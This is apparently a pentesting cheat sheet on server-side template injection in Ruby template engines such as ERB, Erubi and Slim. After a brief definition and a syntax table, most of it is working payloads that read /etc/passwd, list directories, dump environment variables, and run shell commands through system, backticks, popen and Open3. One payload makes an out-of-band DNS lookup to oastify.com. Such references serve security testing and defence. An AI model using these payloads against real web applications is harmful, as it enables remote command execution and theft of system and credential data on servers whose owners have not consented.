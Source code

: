 # Server Side Template Injection - Ruby

> Server-Side Template Injection (SSTI)  is a vulnerability that arises when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In Ruby, SSTI can occur when using templating engines like ERB (Embedded Ruby), Haml, liquid, or Slim, especially when user input is incorporated into templates without proper sanitization or validation.


## Summary

- [Templating Libraries](#templating-libraries)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-Command-execution)
- [References](#references)


## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| Erb      | `<%= %>`   |
| Erubi    | `<%= %>`   |
| Erubis   | `<%= %>`   |
| HAML     | `#{ }`     |
| Liquid   | `{{ }}`    |
| Mustache | `{{ }}`    |
| Slim     | `#{ }`     |


## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Remote Command execution

Execute code using SSTI for **Erb**,**Erubi**,**Erubis** engine.

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for **Slim** engine.

```powershell
#{ %x|env| }
```


## References

* [Ruby ERB Template Injection - Scott White & Geoff Walton - September 13, 2017](https://web.archive.org/web/20181119170413/https://www.trustedsec.com/2017/09/rubyerb-template-injection/)